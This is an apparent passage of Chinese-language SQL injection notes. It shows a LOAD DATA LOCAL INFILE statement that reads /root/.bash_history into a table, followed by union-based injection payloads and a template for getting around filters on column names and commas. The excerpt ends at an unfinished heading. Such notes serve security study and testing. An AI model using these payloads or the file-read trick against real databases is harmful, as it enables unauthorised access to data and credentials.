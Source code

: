 ![](/images/19-2-8_SQL_特性2.jpg)

语句如下：
```sql
create table test.m1(code text);
load data local infile '/root/.bash_history' into table test.m1 fields terminated by ''
```

# 注入思路
## 过滤了字段和逗号
如：
```SQL
select 1,2 union select * from  ( (select user())a JOIN  (select version())b );
select * from user where id ='-1' union select 1,2,(select c.2 from (select 1,2 union select * from users)c limit 1,2);
```
格式如下：
```SQL
union all
select * from(
    (select 1)a join(
        select F.[需要查询的字段号] from(
            select * from [需要查询的表有多少个字段就join多少个]
            union
            select * from [需要查询的表] [limit子句]
        )F-- 我们创建的虚拟表没有表名，因此定义一个别名，然后直接[别名].[字段号]查询数据
    )b-- 同上[还差多少字段就再join多少个，以满足字段数相同的原则]
)
```
## 将字符串转换为数字：
